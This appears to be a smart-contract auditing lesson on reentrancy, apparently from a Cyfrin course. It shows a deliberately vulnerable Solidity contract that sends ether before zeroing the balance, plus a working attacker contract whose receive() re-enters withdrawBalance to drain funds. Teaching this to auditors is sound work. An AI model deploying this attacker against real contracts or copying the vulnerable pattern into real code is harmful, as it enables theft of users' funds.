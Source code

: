 # Exploit: Reentrancy
- ***Reentrancy Attack in PuppyRaffle: Deposit-Withdraw Loop Steals Funds***

- Let's see if we can nail down this vulnerability. When we'd run `Slither` earlier, you may recall it had actually found something...
- Run it again and we'll have a closer look.

```bash
slither .
```

- Looking through the output, we can see `Slither` is in fact detecting things in our `refund` function!

[![Reentrancy Exploit](https://updraft.cyfrin.io/security-section-4/18-exploit-reentrancy/exploit-reentrancy1.png)](https://updraft.cyfrin.io/security-section-4/18-exploit-reentrancy/exploit-reentrancy1.png)

### What is a re-entrancy attack and how does it work?
- For this lesson, we'll be heavily leaning on our **[sc-exploits-minimized](https://github.com/Cyfrin/sc-exploits-minimized)** repo for diagrams and examples to reference. Be sure to clone it so you can see how these vulnerabilities work locally.

- Here's our example contract:

```js
contract ReentrancyVictim {
    mapping(address => uint256) public userBalance;

    function deposit() public payable {
        userBalance[msg.sender] += msg.value;
    }

    function withdrawBalance() public {
        uint256 balance = userBalance[msg.sender];
        // An external call and then a state change!
        // External call
        (bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }

        // State change
        userBalance[msg.sender] = 0;
    }
}
```

- Fairly simple. Under normal circumstances

User A (balance 10 ether) can deposit funds

1. deposit{value: 10 ether}

```js
userBalance[UserA] = 10 ether
contract balance = 10 ether
User A balance = 0 ether
```

- And then withdraw them

2. withdrawBalance

```js
userBalance[UserA] = 0 ether
contract balance = 0 ether
User A balance = 10 ether
```

- The order of operations is really important in these situations. In our `withdrawBalance` function, we see that the function is making an external call _before_ updating the state of the contract.
- What this means, is that an attacker could have that external call be made in such a way that it triggers a call of the `withdrawBalance` function again (hence - reentrancy).

```js
contract ReentrancyAttacker {
    ReentrancyVictim victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }

    receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
}
```

